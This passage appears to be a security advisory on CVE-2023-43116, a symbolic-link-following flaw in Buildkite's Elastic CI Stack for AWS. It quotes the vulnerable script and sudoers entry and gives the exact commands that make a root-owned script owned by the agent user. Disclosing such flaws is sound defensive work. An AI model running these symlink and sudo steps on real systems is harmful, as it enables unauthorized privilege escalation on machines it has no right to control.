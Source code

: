 ## Technical Details

### CVE-2023-43116 - Symbolic Link Following

Buildkite Elastic CI Stack for AWS includes a shell script called `fix-buildkite-agent-builds-permissions` intended to recursively fix ownership for files and directories under `/var/lib/buildkite-agent/builds`:

```sh
...
# We know the builds path:
BUILDS_PATH="/var/lib/buildkite-agent/builds"

# And now we can reconstruct the full agent builds path:
PIPELINE_PATH="${BUILDS_PATH}/${AGENT_DIR}/${ORG_DIR}/${PIPELINE_DIR}"
# => "/var/lib/buildkite-agent/builds/my-agent-1/my-org/my-pipeline"

if [[ -e "${PIPELINE_PATH}" ]]; then
        /bin/chown -R buildkite-agent:buildkite-agent "${PIPELINE_PATH}"
fi
```
**packer/linux/conf/buildkite-agent/scripts/fix-buildkite-agent-builds-permissions**

Further, the script is permitted to be executed using `sudo` by the `buildite-agent` user through a `sudoers.conf` entry:

```conf
buildkite-agent ALL=NOPASSWD: /usr/bin/fix-buildkite-agent-builds-permissions
```
**packer/linux/conf/buildkite-agent/sudoers.conf**

However, all directories beneath `/var/lib/buildkite-agent/builds` are writeable by the `buildkite-agent` user by default. As a result, an attacker can create a symbolic link pointing to `/usr/bin/` in a subdirectory within `/var/lib/buildkite-agent/builds` and execute `fix-buildkite-agent-builds-permissions` to change ownership of itself to `buildkite-agent:buildkite-agent`:

```sh
# change directory to ${AGENT_DIR}
$ cd /var/lib/buildkite-agent/builds/buildkite-agent-default-stack-i-abcdef0123456789-1/

# create symlink to /usr/bin
$ ln -s /usr/bin usr_bin

# execute fix-buildkite-agent-builds-permissions to change ownership of itself
$ sudo /usr/bin/fix-buildkite-agent-builds-permissions buildkite-agent-default-stack-i-abcdef0123456789-1 usr_bin fix-buildkite-agent-builds-permissions

# verify that ownership changed to buildkite-agent:buildkite-agent
$ ls -alh /usr/bin/fix-buildkite-agent-builds-permissions
-rwxr-xr-x 1 buildkite-agent buildkite-agent 2.4K May 27  2022 /usr/bin/fix-buildkite-agent-builds-permissions
```
**Changing Ownership of `fix-buildkite-agent-builds-permissions`**
